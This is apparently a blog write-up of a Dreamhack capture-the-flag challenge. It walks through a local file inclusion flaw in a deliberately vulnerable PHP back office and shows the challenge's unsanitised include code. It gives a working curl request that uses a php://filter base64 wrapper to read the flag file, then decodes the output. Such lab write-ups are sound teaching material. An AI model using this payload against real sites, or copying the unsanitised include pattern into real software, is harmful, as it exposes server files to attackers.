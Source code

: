 ```yaml
---
title: php-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, LFI]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/46/](https://dreamhack.io/wargame/challenges/46/)

## Description

> This is a Back Office service written in php.
>
> Use the [LFI vulnerability](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) to obtain the flag. The flag is located in ```/var/www/uploads/flag.php```

## Analyzation

Check the attaches files

```php
<?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
```
{: file="./view.php" }

```php
<?php
    include $_GET['page']?$_GET['page'].'.php':'main.php';
?>
```
{: file="./index.php" }

There are two ways to do LFI. But ```view.php``` is not the possible way because string ```"/flag"``` is blocked.

We can do LFI by ```index.php```. Check [owasp.org](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) and [whitehatinstitute.com](https://whitehatinstitute.com/local-file-inclusion-using-php-filter-base64-encoding/).

## Solution

```sh
curl http://host3.dreamhack.games:20299/?page=php://filter/read=convert.base64-encode/resource=/var/www/uploads/flag
```

```
PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw==
```

Note that ```/var/www/uploads/flag.php``` will not work! (Check ```index.php``` again for that)
```php
$_GET['page'].'.php'
```
{: file="./index.php" }

Then decode the base64

```sh
echo -n PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw== | base64 -d
```

```php
<?php
        $flag = 'DH{bb9db1f303cacf0f3c91e0abca1221ff}';
?>
can you see $flag?
```

The flag is
```
DH{bb9db1f303cacf0f3c91e0abca1221ff}
```

## Summarization

- [LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)